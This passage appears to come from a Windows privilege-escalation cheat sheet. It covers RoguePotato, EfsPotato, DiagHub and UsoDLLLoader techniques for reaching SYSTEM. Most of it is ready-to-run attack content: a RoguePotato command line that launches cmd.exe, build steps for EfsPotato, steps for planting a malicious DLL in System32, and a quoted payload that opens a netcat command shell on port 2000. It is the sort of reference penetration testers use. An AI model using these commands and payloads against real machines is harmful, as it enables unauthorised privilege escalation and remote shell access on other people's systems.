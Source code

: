 ```powershell
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### EFSPotato (MS-EFSR EfsRpcOpenFileRaw)

* Binary available at https://github.com/zcgonvh/EfsPotato

```powershell
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs

# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs
```


## EoP - Privileged File Write

### DiagHub

:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM. 
This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the `C:\Windows\System32` directory. 

#### Exploit

1. Create an [evil DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) e.g: payload.dll and move it into `C:\Windows\System32`
2. Build https://github.com/xct/diaghub
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`

Alternative tools:
* https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
* https://github.com/decoder-it/diaghub_exploit


### UsoDLLLoader

:warning: 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10 Insider Preview.

> An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a. @tiraniddo)

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of `windowscoredeviceinfo.dll` into `C:\Windows\Sytem32\` and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.
